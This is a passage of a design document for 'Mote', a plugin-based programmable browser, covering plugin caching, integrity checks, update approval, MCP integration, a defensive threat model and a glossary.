mote plugin import <name>                  # promote an implicit local plugin into plugins.lua
mote plugin gc                             # remove unreferenced cache entries
mote plugin review <name>                  # show/approve pending permission changes
mote plugin pin <name>                     # checksum-pin and approve a manually-written plugin
mote plugin link <secret-name>             # CLI helper for mapping a secret to a vault item
```

### Implicit local plugins

Bare files in `~/.config/mote/plugins/<name>/` not declared in `plugins.lua` still work — they're detected, surfaced for approval, and loadable. They just aren't synced or updated by the management commands. The integrity panel labels them clearly as "implicit local" so users know which plugins are declared and which are ad-hoc.

This preserves the Claude-Code-drops-a-plugin workflow: Claude Code writes the file; Mote prompts the user to review and approve; the user can either leave it as an implicit local plugin or run `mote plugin import <name>` to add it to `plugins.lua` for reproducibility across machines.

### Identity and the cache

The cache is shared across identities; the *code* on disk is the same regardless of identity. Identity isolation happens at runtime (storage namespaces, permission grants, sealed credentials), not at code-on-disk.

A user who genuinely wants different plugin versions per identity can place a `plugins.lua` and `plugins.lock` inside an identity's config directory (`~/.config/mote/identities/<name>/plugins.lua`); that identity uses its own manifest while still drawing from the shared cache.

### Integrity verification

On startup, Mote verifies cached plugin file checksums against the lock. Mismatch:
- Refuses to load that plugin.
- Surfaces in the integrity panel as "checksum mismatch — run `mote plugin sync` to restore."
- The user can also explicitly approve the current state if it was an intentional local edit, via `mote plugin pin <name>`.

The checksum here is for *integrity* (the file matches what we expected), not *security trust* (the source is good). The trust decision happens at install approval; the checksum ensures the file Mote runs is the file the user approved.

**Hash computation.** The checksum is a BLAKE3 hash over the plugin's directory contents:
- Files are enumerated recursively from the plugin's root directory.
- File paths are sorted lexicographically for determinism across filesystems.
- For each file, the hash incorporates the path (as a UTF-8 string) and the file's byte contents.
- Symlinks within the plugin directory are not followed; they're hashed by their target path string.
- Plugins must not write transient state into their own directory (logs, caches, scratch files) — such state would invalidate the checksum on every run. Use `storage:persistent` instead.

### Update flow with permission changes

`mote plugin update cool-plugin` fetches the new version, updates the lock, and detects whether the new manifest changes permissions, capabilities, dependencies, or identity_scope. If yes, the plugin is marked needing re-approval and won't load until the user approves; if no, the plugin loads transparently on next launch (or via `mote plugin reload`).

CLI output makes permission changes prominent:

```
$ mote plugin update cool-plugin
Updating cool-plugin: v1.2.0 → v1.3.0

Permission changes:
  + http:fetch:https://api.new-analytics.com/*   (NEW)
  + tabs:get_history                              (NEW)
  - sys:notify                                    (REMOVED)

cool-plugin requires re-approval before it will load.
Run `mote plugin review cool-plugin` to view and approve.
```

Code-only changes don't trigger re-approval. The previously-approved permission set is durable as long as the plugin doesn't expand it.

### First-party plugins and updates

First-party plugins default to `source = "bundled"` in the shipped default `plugins.lua`. They update with the Mote binary: when the user installs a new Mote release, the new release's embedded bundle replaces the previously-resolved files for any plugin still on the `bundled` source.

Users who want plugin-level granularity switch any plugin to its canonical Git source:

```
$ mote plugin source adblock github:mote-browser/adblock
```

Subsequent updates flow through the normal `mote plugin update` mechanism, independent of Mote binary releases.

**Update notification for bundled plugins.** Even when a first-party plugin is sourced from `bundled`, Mote periodically polls its canonical Git source (configurable cadence, weekly by default, `never` disables). When a newer version is available upstream, the integrity panel surfaces it with two options: "Switch to Git and update" or "Dismiss." Users on airgapped systems disable the check entirely; users on the default path see the option without being pushed into it.

**`mote plugin update <bundled-plugin>` prompts rather than erroring.** If the user runs an explicit update against a plugin still on `bundled`, the CLI asks whether to switch the source and update in one step:

```
$ mote plugin update adblock
adblock is currently sourced from `bundled` (shipped with Mote).
Bundled plugins update only when you update the Mote binary. To track
updates independently, switch the source to Git.

Switch source to github:mote-browser/adblock and update? [y/N] y

Switching adblock: bundled → github:mote-browser/adblock
Fetching abc123def456...
Updated adblock: bundled (v1.2.0) → github (v1.3.0)
```

Declining leaves the plugin on `bundled`; nothing changes; no half-state.

**User-chosen sources are sticky.** Once a plugin is switched from `bundled` to a Git source, subsequent Mote binary updates don't override that choice. The bundled version is only used when the source *is* `bundled`. This matches the rest of the system's bias toward explicit user actions over hidden magic.

```lua
-- in user config
mote.updates.configure({
  check_first_party = "weekly",  -- "never" disables; "daily" / "weekly" / "monthly" set cadence
})
```

### Plugin dev mode

A separate workflow for users developing their own plugins. Declared per-plugin or per-directory in user config:

```lua
-- in user config
mote.dev_mode({
  directories = {
    "~/code/mote-plugins/my-plugin",
    "~/code/mote-plugins/experiment",
  },
})
```

Plugins in dev-mode paths are auto-approved on every load *and* on every permission change. Dev-mode plugins are visually marked in the integrity panel (`[dev]` prefix or distinct color) and any UI they own (e.g., colored border on their sidebar panel) so the user can't forget which plugins are running with relaxed approval.

Dev mode is per-plugin or per-directory — never a global "disable security" toggle.

A first-party plugin `mote-plugin-devtools` (Tier 3, off by default, enabled when dev mode is active) provides per-plugin console output, source-mapped error traces, audit-log filtering, an effective-permissions view, a manual reload button, and storage-namespace inspection.

### UI for plugin management

The integrity panel is also the plugin management UI — one surface, not two. Each plugin row displays provenance and integrity as first-class fields, not "advanced details":

```
○ adblock         v1.2.0    github:mote-browser/adblock @ abc123    [verified]
○ vim-mode        v0.5.0    github:mote-browser/vim-mode @ def456   [verified]
◐ my-experiment   local     path:~/code/experiment                  [verified]
◇ pasted-plugin   implicit  ~/.config/mote/plugins/pasted-plugin/   [verified]
```

Glyphs distinguish declared Git plugins (`○`), declared path plugins (`◐`), and implicit local plugins (`◇`). Each row shows source, commit/version, and integrity status. One-click actions for the common operations: rollback to previous version, run sync, view diff, review pending updates.

Permission changes appear differently from code-only updates — different color, different icon, different prominence — so users don't autopilot through "update available" notifications without noticing what they cover.

A graphical plugin browser ("discover plugins" panel) is deliberately not in v0.1. Power users find plugins via GitHub, README, friends, blog posts; a built-in browser would force decisions about a registry that doesn't yet exist. Management UI manages what you have; it doesn't try to be a marketplace.

## Window model

Mote ships as a standard windowed application. One window shows one tab at a time; multi-window layout is the operating system's window manager's job. The browser provides no in-window multi-pane functionality (no `:split` / `:vsplit`) in v0.1; users wanting side-by-side views run two browser windows.

Tabs can move between windows, and windows in the same identity share workspace state and authentication context.

**In-window multi-pane is deferred to v0.2+** (see Open Decisions). The decision to defer is itself load-bearing: the plugin API is designed *now* to be pane-unaware. Plugins operate on tabs, not panes. If panes ship later, they will be a pure UI concept; the plugin model never learns about them.

## AI-Native Architecture

Two value props share the same architecture: the browser is **programmable by users** and **introspectable by agents**. Both are served by the plugin system; neither requires the browser to ship AI features directly.

### What we explicitly do not build

- **No chatbot in the sidebar.** No "ask AI" panel, no urlbar AI suggestions, no AI summaries baked into the browser.
- **No autonomous agent that browses for you.** A different product (browser-use, OpenAI Operator, Claude Computer Use already cover this).

Any of these can be a plugin if a user wants them. The browser substrate stays neutral.

### Plugins as an LLM target surface

Three properties combine to make plugin generation by LLMs practical:

1. **The plugin API is small enough to fit in a context window.** ~14 permission domains, a few dozen primitives, a manifest grammar. A model can have the entire spec in its system prompt and generate correct plugins.
2. **Plugins are Lua, hot-reloadable, sandboxed.** A generated plugin is safe to run; even if the LLM hallucinated, it cannot exfiltrate data without permissions the user approved.
3. **The browser is the user's primary environment.** Most LLM-generated artifacts live somewhere the user has to context-switch to use; a browser plugin runs where the user already is.

Plugin generation is an **external tool concern**. Claude Code, the user's editor, or any LLM client can target the plugin spec. The browser is not responsible for the generation interface; it is only responsible for being a clean target.

### MCP integration — both directions, v0.1 scope

The Model Context Protocol is a first-class concern from v0.1. Plugins can:

- **Fulfill `mcp:server`** (non-exclusive). Each fulfilling plugin declares MCP tools. Mote exposes one MCP endpoint to external clients (Claude Desktop, the user's editor, ECHO/PAT, any MCP-aware agent); the runtime namespaces each plugin's tools under `<plugin-name>.<tool-name>` and routes incoming calls to the owning plugin. External clients connect once and see the unified catalog.
- **Request `mcp:client:<server-name>` permissions.** The plugin calls out to external MCP servers — self-hosted services, ECHO/PAT, internal tools. The integrity panel shows exactly which MCP servers each plugin reaches.

Tool calls execute under the owning plugin's permissions, not the runtime's; the routing layer doesn't carry capability authority. The integrity panel surfaces MCP-server activity per plugin: which tools each plugin exposes, which external clients have connected, and per-plugin call counts.

The endpoint binds to loopback by default (permission `mcp:server:bind_loopback`). Plugins that need to expose the endpoint on other network interfaces — power users sharing tools across machines — must request `mcp:server:bind_public` instead, which carries a stronger warning in the approval UI.

```lua
-- Example: an MCP-server plugin exposing browser state
M.manifest = {
  name = "browser-mcp-bridge",
  capabilities = { "mcp:server" },
  permissions = {
    "mcp:server:bind_loopback",
    "tabs:list",
    "workspaces:list",
    "page:read_dom",
  },
}

M.mcp_tools = {
  {
    name = "list_open_tabs",
    description = "Returns open tabs in the current workspace",
    handler = function() return tabs.list() end,
  },
}
```

### LLM access lives in plugins, not the runtime

Mote does *not* ship an AI permission domain or an LLM routing layer. The browser is not in the business of being an LLM router — that would commit the runtime to tracking provider-specific APIs and credential formats, which is plugin work.

Plugins that want to call an LLM use `http:fetch` like any other external service. Each plugin decides which provider it talks to. Credentials come from the secret subsystem (see *Secret Management*); plugins request the specific named secrets they need.

This is intentionally hands-off. The browser provides:
- A clean permission surface (`http:fetch:<origin>`) for the actual calls.
- A clean credential surface (`secret:read:<name>`) without bundling credential logic into plugin code.
- Audit visibility — network audit log shows the calls; integrity panel shows which secrets each plugin reads.

What the browser deliberately does *not* provide: a uniform inference API, provider adapters, prompt routing logic, or backend-interchangeability magic. Plugins that want to abstract over multiple providers can build that abstraction themselves, possibly as a shared dependency plugin (`llm-client-core` or similar). Mote stays a substrate.

### Semantic introspection for LLM frontend validation

A primary use case: making the browser a better tool for LLM agents validating frontend code than Playwright currently is.

The problems with Playwright as an agent tool: brittle selectors the model has to infer or guess; screenshot-as-vision (lossy and token-expensive); enormous raw DOM dumps that burn context window on boilerplate; no semantic structure; opaque correlation between user actions and resulting state; second-class console errors; no framework state introspection. The browser knows all of this already and Playwright exposes none of it cleanly.

A flagship plugin — **`frontend-introspection-mcp`**, planned for v0.2–v0.3 — fulfills `mcp:server` and exposes purpose-built tools:

```
Tools exposed via MCP:

inspect_page_semantic       # accessibility tree, headings, landmarks, form structure
inspect_element             # bounding box, computed styles, ARIA state, framework component
trace_user_interaction      # correlated user action → network → console → DOM → state chain
visual_diff                 # structured diff between page states
check_accessibility         # axe-core results with semantic violations
check_console               # source-mapped errors since last reset
check_network               # request/response history with timings
introspect_framework_state  # React fiber, Vue tree, Solid signals, Svelte stores
screenshot_annotated        # screenshot with semantic overlay for vision models
assert_semantic             # "the page has a working login form" → structural verification
```

The work is exposing what Chromium already maintains (accessibility tree, DevTools Protocol, network internals, console capture). This is a plugin, not a core feature — but it requires the new `introspect:` permission domain in core for underlying access:

```
introspect:
  accessibility_tree       # read a11y tree for any page
  framework_state          # query React/Vue/Solid/Svelte devtools protocols
  console                  # read console output
  network_history          # read full network log including bodies
  computed_styles          # query computed CSS for any element
```

These permissions are powerful and reserved for tooling plugins. The integrity panel flags them clearly when granted.

A worked manifest:

```lua
M.manifest = {
  schema = "v1",
  name = "frontend-introspection-mcp",
  version = "0.3.0",
  capabilities = { "mcp:server" },
  permissions = {
    "mcp:server:bind_loopback",
    "tabs:list",
    "page:read_dom",
    "introspect:accessibility_tree",
    "introspect:framework_state",
    "introspect:console",
    "introspect:network_history",
    "introspect:computed_styles",
  },
  identity_scope = "global",   -- tooling plugin, identity-agnostic
}
```

This is a high-permission plugin — `introspect:*` taken together exposes nearly everything Chromium knows about a page. The install dialog flags this prominently. Users granting it are explicitly turning Mote into an introspection surface for LLM agents; that's the use case, but it deserves the same scrutiny as installing a debugger.

### Ecosystem connections

- **ECHO/PAT integration** becomes natural — both directions of MCP make the browser a first-class citizen in the user's existing agent stack.
- **Speclang and agentic-dev pipelines** apply directly to plugin development — spec a plugin, generate tests, generate implementation, run through the same review pipeline used for application code.
- **Frontend developers using Claude Code, Cursor, Cline, or similar** gain a substantially better validation surface than Playwright provides today. This is a substantially larger population than the dotfiles-driven audience that originally motivated Mote, and they have a specific currently-unsolved problem.

## Transparency — The Browser Integrity Panel

The UI surface that justifies the whole security model.

```
About → Browser Integrity

Active plugins:
  password-manager-1password (v1.0.0)                              [verified]
    Source: github:1password/mote-plugin @ abc123def456
    Fulfills: password-manager:provider, secret:provider
    Consumes: password-manager-form-services
    Permissions (requested → effective):
      • http:fetch:https://*.1password.com/*
      • storage:persistent
      • page:inject_script:*  →  page:inject_script:https://github.com/*  (narrowed by user)
      • crypto:seal_to_plugin
    Last used: 2 minutes ago
    [Revoke permission] [Adjust scope] [Update] [Rollback] [Settings]

  vim-mode (v0.5.0)                                                [verified]
    Source: github:mote-browser/vim-mode @ def456abc789
    Permissions:
      • keys:bind
      • keys:intercept_input
      • page:inject_script:*
      • storage:memory
    Last used: now
    [Revoke permission] [Update] [Rollback] [Settings]

  [dev] my-experiment                                              [verified]
    Source: path:~/code/experiment
    Permissions: (3 granted)
    [Revoke permission] [Reload] [Settings]

Network audit log (last 24h):
  adblock: 3,247 requests blocked
  browser itself: 142 requests to telemetry.example.com (explain | block)

Storage audit:
  adblock: 2.3 MB (filter lists)
  vim-mode: 12 KB (config)

Permission denials (last 7d):
  [none]
```

The browser logs *permission calls*, not just declarations. Users can audit what plugins actually did, not just what they said they could do.

## Threat Model

### Threats Addressed

- **Malicious plugins demanding excessive permissions.** Fine-grained, resource-scoped permissions + user approval limit blast radius. A plugin that asks for `sys:native_message` for no clear reason gets denied. A plugin that asks for `http:fetch:*` is flagged in the approval UI.
- **Plugins exfiltrating data via the network.** Network audit log makes this visible after the fact, even if not preventable in real time.
- **Plugins reading data they shouldn't.** Permission declarations are the gate; the runtime enforces.
- **Supply-chain attacks via plugin updates.** Checksum pinning in dotfiles config: mismatch = no load. Update notifications show diffs before applying.
- **Privilege escalation across plugins via the event bus.** Events are notifications only; permissions don't transfer.
- **Plugins exploiting dependencies' permissions.** A dependent plugin can only invoke a dependency's exported API, not impersonate it. Permissions enforce per-plugin, never transitively.
- **Pages exfiltrating data from plugin-injected scripts.** Per-plugin isolated V8 worlds prevent pages from observing or hijacking plugin script execution. The password manager's autofill cannot be intercepted by a phishing page.
- **MCP endpoints exposed to the network.** The MCP server binds to loopback by default. Binding to public interfaces requires the separate `mcp:server:bind_public` permission, which carries a stronger approval warning. Users explicitly opt in before tools can be reached from other machines.

### Threats Not Fully Addressed

- **Compromised plugin maintainer.** A maintainer who ships a malicious version can be detected by checksum mismatch, but only if the user has the previous good checksum pinned.
- **Information leakage through legitimate permissions.** A plugin with `tabs:list` + `storage:persistent` + `http:fetch` can fingerprint browsing and exfil. Permission granularity limits this, but doesn't eliminate it. Network audit log is the detection mechanism.
- **Plugin bugs.** A correctly-scoped plugin with a CSRF or cache-timing bug is the same risk as any software; not architecturally preventable.

### Mitigations to Build Toward

- **Curated first-party plugins only at launch.** No third-party plugin repository on day one. Users can write their own Lua. This reduces supply-chain attack surface enormously.
- **Plugin signing** for distribution. Deferred until third-party plugins are in scope.
- **Immutable plugin storage.** Plugins live in read-only locations after install. Can't be trojaned post-install.

## Differentiators vs. Existing Browsers

- **In-process plugins.** No IPC overhead like WebExtensions' renderer/extension/background context dance.
- **Hot reload.** Edit `ublock.lua`, see the change. WebExtensions can't do this cleanly.
- **Config-is-code.** The user's `init.lua` is the same kind of file as any plugin.
- **Composable plugins.** uBlock and a custom request logger can both use `net:intercept_request` without conflicting.
- **Permission and capability model with full transparency.** Fine-grained, resource-scoped permissions; explicit role declarations via capabilities; per-call audit log. No equivalent in Firefox or Chrome.
- **AI-native, two directions.** The plugin API is small enough to fit in an LLM context window — Claude can generate plugins from a prose description, validated by the permission model before execution. The same architecture exposes semantic browser primitives to external agents via MCP.
- **Better than Playwright for LLM-driven frontend validation.** Semantic introspection — accessibility tree, framework state, correlated event traces, structured visual diffs — instead of brittle selectors and screenshot-as-vision.

## v0.1 First-Party Plugins

Twelve plugins ship with the browser, in three tiers. **First-party plugins are still plugins** — the plugin API has to be expressive enough to build the browser's own behavior. If `adblock` is "real," so is `bookmarks`. This discipline keeps the API honest.

**Tier 1 — core behavior, enabled by default, replaceable:**

- `bookmarks` — store, organize, search. Fulfills `ui:bookmarks_provider`.
- `history` — visit log, urlbar suggestions. Fulfills `ui:history_provider` and `ui:urlbar_provider` (with internal event surface for other plugins to contribute suggestions).
- `workspace-manager` — the spaces concept. Fulfills `workspace:provider`.
- `password-manager-form-services-plugin` — fulfills `password-manager-form-services`. Owns form detection, autofill picker UX, isolated-world script injection. Vendor plugins consume this capability rather than depending on it directly.
- `password-manager-1password` — fulfills `password-manager:provider`; consumes `password-manager-form-services`. Talks to 1Password via the Rust SDK (when stable) or Connect REST API. Never shells out to `op`.
- `password-manager-bitwarden` — fulfills `password-manager:provider`; consumes `password-manager-form-services`. Talks to Bitwarden via SDK or REST. Never shells out to `bw`.

The two vendor plugins both fulfill the exclusive `password-manager:provider` capability — the user enables exactly one at a time. Both consume the same `password-manager-form-services` capability, which any plugin (the first-party form-services plugin or a community alternative) can fulfill.

**Tier 2 — magnetic, enabled by default:**

- `adblock` — uBlock-equivalent. WASM rule engine, Lua orchestration. Hooks `net:intercept_request` as a filter chain alongside other privacy plugins.
- `vim-mode` — Tridactyl-equivalent. The persona magnet — every target user has muscle memory for `f`/`F`/`gg`/`G`.

**Tier 3 — installed, off by default, one config line to enable:**

- `reader-mode` — article extraction and clean rendering.
- `dark-mode` — site-by-site dark mode for sites without their own.
- `download-manager` — replaces Chromium's default downloads with queueing, hashing, and notification integration.
- `mote-plugin-devtools` — per-plugin console, error traces, audit filtering, effective-permissions view, reload, storage inspection. Enabled when plugin dev mode is active.

**Explicitly out of scope for v0.1:** Sync (massive, touches everything; personal-tool-with-Git-sync is fine initially). Tree-style tabs (probably a v0.2 plugin). Translation, screenshot tools, page clippers, RSS reader. Container tabs as a separate concept (containers might be a property of workspaces, not their own thing).

## MVP Scope (12–24 months solo, faster with a team)

| Phase | Scope | Estimate |
|---|---|---|
| 1 | Plugin runtime + sandbox + permission and capability model | 2–3 months |
| 2 | Core API surface wired to the engine | 4–6 months |
| 3 | Browser shell (tabs, urlbar, workspaces, settings, integrity panel) | 2–4 months |
| 4 | First-party plugins (ad blocker, vim mode, workspace manager, password-manager bridge, dark reader equivalent) | 4–8 months |
| 5 | Polish to daily-drive quality | 3–6 months |

## Bootstrap Strategy

- Ship with a curated set of first-party plugins; no third-party repo at launch.
- Users can write Lua immediately for personal use.
- Open third-party plugin distribution only after the signing/audit infrastructure is in place.

## Distribution and Updates

**Binary releases from v0.1.** GitHub Releases hosts pre-built binaries for macOS (arm64) and Linux (x86_64). Two platforms; the minimum viable matrix for the target audience. Windows and additional Linux architectures come later if demand surfaces.

**Source builds remain supported.** Users who want them (NixOS, custom CEF configurations, security-conscious recompilation) build from source. README documents both paths clearly.

**Update checking is opt-in and manual.** Mote periodically polls GitHub Releases for new versions; surfaces "Mote 0.2 available" in the integrity panel; the user manually downloads and replaces the binary (or pulls via their package manager). **No silent updates, ever.** Chrome-style background install is incompatible with the transparency principle.

**Update mechanism stays minimal in v0.1.** No auto-download, no signature verification of binaries beyond HTTPS to GitHub, no rollback feature. Users wanting more sophisticated update handling use their platform's package manager (Homebrew, AUR, Nix flake) once community packaging exists.

**Release cadence follows CEF.** Every Chromium/CEF release that lands in Mote's tracked CEF branch triggers a Mote release. Indicative cadence: ~monthly, matching the disciplines doc's CEF upgrade discipline.

## Sustainability Posture

Mote is personal-first. The primary developer is the primary user, and the project is built to scratch a real itch rather than to chase users. If it resonates with the dotfiles/Neovim/LLM-tooling audiences it's aimed at, a donation-supported posture is the natural next step.

**Implications of the personal-first frame:**
- No early infrastructure for sponsorship, billing, or hosted services. GitHub Sponsors / Open Collective can be added once there are users to want them.
- **License: Apache 2.0.** Permissive enough to let others contribute, fork, and build on Mote without friction. Chosen over MIT for the patent grant (contributors implicitly license any patents necessary to use their contributions, with defensive termination if a user sues over patents) and over GPL (which would limit downstream use without proportional benefit). Apache 2.0 is also the dominant license in the Rust ecosystem Mote builds on (tokio, serde, tower, rustls, etc.), and its NOTICE file convention cleanly handles attributing CEF, Chromium, and other bundled dependencies. The trademark restriction (the "Mote" name isn't licensed) preserves brand control over what gets called Mote even as the code is freely usable.
- Contributions accepted but not solicited. No "contributor wanted" pleas in the README. The project's quality bar is "I would use this," not "this will appeal to a broad audience."
- Roadmap is whatever the primary developer needs next, not what would maximize adoption.

**What this rules out (for now):**
- Corporate sponsorship contingent on roadmap influence. The project is not optimized for any party's business needs.
- Hosted services (sync, plugin signing, MCP gateways) as a paid component. If these are ever needed, they're built as separate concerns that interoperate with Mote, not as a built-in revenue model that compromises the substrate's neutrality.
- Telemetry, analytics, or any background user-data collection. The no-data-without-consent principle from Core Principles applies in full: user-initiated bug reports and per-incident crash dialogs that show what's being sent are acceptable; continuous monitoring is not.

**What stays open:**
- Donation channels (GitHub Sponsors, Open Collective) when/if users show up.
- Community-maintained plugin repository as the ecosystem grows.
- A paid hosted service *adjacent* to Mote (e.g., a managed plugin-signing service for organizations) is conceivable far in the future, but only if the core browser remains fully usable without it.

The posture: **build for yourself, ship in public, accept help if it comes, never compromise the substrate.**

## Open Decisions (next conversations)

- **UI framework / rendering layer.** Custom over `wgpu` or Skia vs. adopting `iced` or `egui`. Needs validation against workspace and integrity-panel requirements.
- **Workspace persistence model.** SQLite, flat files, or a per-workspace directory layout.
- **Plugin registry and discovery.** v0.1 supports `github:` and `git+https:` sources directly; a curated registry (with signing, audit pipeline, discovery UI) is deferred until ecosystem demand justifies it.
- **Settings UI vs. config-file-only.** Whether to expose any GUI for settings or keep configuration purely declarative.
- **In-window multi-pane (v0.2+).** Vim-style `:split` / `:vsplit` within a single browser window. Deferred from v0.1; build only if real demand surfaces.
- **Theming in detail.** What a theme controls (chrome only or also content), the manifest grammar for themes, runtime-switchable vs. load-time, how `theme:provider`'s non-exclusive stacking actually composes, how themes interact with workspace `accent` fields, native Astro Red support.

## Glossary

- **Permission**: a fine-grained, resource-scoped grant from the browser to a plugin. Approved by the user at install time. Examples: `http:fetch:https://*.1password.com/*`, `page:inject_script:*`.
- **Capability**: a role a plugin fulfills in the ecosystem. Other plugins reference these roles to compose behavior. Examples: `password-manager:provider` (exclusive), `theme:provider` (non-exclusive).
- **Consumes**: a manifest field declaring capabilities this plugin needs *some* other plugin to fulfill. Resolved at load time; if no plugin currently fulfills a consumed capability, the consumer fails to load with a clear error.
- **Capability invocation**: synchronous call into a capability's API surface, routed by the runtime to whichever plugin currently fulfills the capability. Executes under the fulfiller's permissions, not the caller's.
- **Requires**: a manifest field declaring dependencies on other plugins, with semver constraints. Imports the dependency's exported API for code reuse; couples with event-bus contracts.
- **Exclusive capability**: a capability only one plugin fulfills at a time. Examples: `ui:urlbar_provider`, `password-manager:provider`. A second plugin claiming the same exclusive capability fails to load.
- **Non-exclusive capability**: a capability multiple plugins can fulfill simultaneously. How the runtime treats multiple fulfillers is specified per-capability in the registry. Examples: `theme:provider` (stacks stylesheets), `mcp:server` (namespaces tools under one endpoint).
- **Critical capability**: a capability tagged as critical-path for basic browser functionality. Critical capabilities get extended schema-migration deprecation windows. Examples: `workspace:provider`, `ui:urlbar_provider`, `ui:bookmarks_provider`, `ui:history_provider`. First-party plugins fulfilling these capabilities ship via the `bundled` source so the browser is functional from first launch.
- **Permission Registry**: versioned, browser-defined list of valid permission names. Plugin manifests must reference only known names.
- **Capability Registry**: versioned, browser-defined list of valid capability roles with contract specifications.
- **Plugin**: a Lua or WASM module that extends the browser, declaring permissions, capabilities, consumed capabilities, and identity scope in a manifest. Plugins do not depend on each other directly; all inter-plugin interaction is mediated by capability contracts (events and capability API invocation).
- **Manifest**: the metadata block at the top of a plugin file declaring schema version, name, version, permissions, capabilities, consumes, identity_scope, and checksum.
- **Integrity panel**: the unified UI for plugin observability and management. Shows all active plugins with provenance (source, commit), integrity status, permissions and effective scope, audit activity, and management actions (revoke, update, rollback, reload, adjust scope). Also the plugin management surface — not a separate UI.
- **First-party plugin**: a plugin shipped with the browser, maintained by the browser project. Still a plugin — uses the same API surface as any third-party plugin.
- **Filter chain**: dispatch pattern where plugins form an ordered chain and each handler can `block`, `modify`, `allow`, or `defer`. First `block` wins; `modify` cascades.
- **Broadcast**: dispatch pattern where all registered handlers receive an event independently with no return-value semantics.
- **Collector**: dispatch pattern, used inside an exclusive capability, where subscribers contribute results and the capability holder merges them.
- **Fan-out per origin**: dispatch pattern for `page:inject_script` and `page:inject_css`, where each plugin runs independently in its own isolated world rather than chaining.
- **Isolated world**: a separate V8 JavaScript context per plugin, used for `page:inject_script`. Prevents pages from observing or hijacking plugin scripts.
- **Identity**: a fully isolated user-state container (cookies, storage, history, cache). Implemented as a Chromium profile. Hidden behind a single "default" identity until the user explicitly creates more.
- **Workspace**: a user-facing context — pinned tabs, theme, default identity, default new-tab page. The orthogonal axis to identity. Dotfile-checkable.
- **Session**: ephemeral runtime state — currently open tabs, scroll positions, undo history. Lives in `~/.local/state/`; not dotfile-managed by default.
- **Active tab**: a tab visible in some window's tab strip; has its renderer alive (or discardable after idle).
- **Hidden tab**: a tab that belongs to a workspace but isn't currently shown in any window. Costs SQLite rows, not RAM. Retrievable via the workspace tab picker.
- **Workspace tab picker**: fuzzy-finder UI listing all tabs in the current workspace (active + hidden), used to navigate to or reveal tabs.
- **Hold**: runtime mark on a hidden tab exempting it from TTL aging. Session-only, not in dotfiles.
- **Pin (workspace)**: dotfile-recorded promotion of a tab to a persistent workspace pinned tab. Durable across machines via Git.
- **Tab discarding**: killing the renderer process of an active tab unfocused for a long time, while keeping the tab visible in its window's strip. Memory-saver behavior modeled on Chrome's Memory Saver.
- **Identity scope**: a plugin manifest field declaring whether the plugin's storage is `per_identity` (partitioned automatically), `global` (one shared namespace), or `user_choice` (user picks at install time).
- **MCP (Model Context Protocol)**: open protocol for exposing tools and resources between AI agents and applications. The browser supports both directions: plugins can fulfill `mcp:server` (browser is queryable by external agents) or request `mcp:client:<server-name>` permissions (plugins call out to external MCP servers).
- **`secret:` permission domain**: per-named-secret access. A plugin requesting `secret:read:anthropic_api_key` gets that one secret resolved from whatever backend the user configured in `secrets.lua` (OS keyring, password manager, age-encrypted file, env var, etc.). Plugins never see API keys directly; they request named values.
- **Secret backend**: a resolver for secret values. Built-in backends: `keyring`, `password-manager`, `age`, `env`, `file`. Plugins fulfilling `secret:provider` (typically password managers, opt-in) extend the set.
- **`introspect:` permission domain**: powerful permissions for tooling plugins that need deep access to page state — accessibility tree, framework devtools protocols, console history, network history, computed styles.
- **`frontend-introspection-mcp`**: flagship plugin planned for v0.2–v0.3 demonstrating the browser as a semantic introspection surface for LLM-driven frontend validation. Exposes purpose-built MCP tools (accessibility tree, framework state, event tracing, visual diff, etc.) as a better-than-Playwright alternative for AI agents.
- **`plugins.lua`**: dotfile-checked declaration of which plugins the user wants and where they come from. Source manifest, not a security artifact.
- **`plugins.lock`**: dotfile-checked, auto-generated record of exact resolved commits and checksums per plugin. Makes plugin sets reproducible across machines.
- **Plugin source**: where a plugin's code comes from. v0.1 supports `github:<owner>/<repo>`, generic `git+https://...`, `path:<local-path>`, and `bundled` (from a local bundle the runtime knows about; in v0.1 only the Mote-binary-embedded bundle is wired up, with `bundled:<name>` reserved for v0.2+ external bundles).
- **Plugin cache**: content-addressed store at `~/.cache/mote/plugins/<name>/<commit>/` holding fetched plugin trees. Enables instant rollback and version diffs.
- **Implicit local plugin**: a plugin present in `~/.config/mote/plugins/` but not declared in `plugins.lua`. Still loadable after standard approval; not synced or updated by management commands. Labeled clearly in the integrity panel.
- **Plugin dev mode**: per-plugin or per-directory auto-approval for plugins the user is developing. Dev-mode plugins are visually marked everywhere they appear.
- **`mote-plugin-devtools`**: first-party Tier 3 plugin providing per-plugin console output, error traces, audit-log filtering, effective-permissions view, manual reload, and storage inspection. Off by default; enabled when dev mode is active.
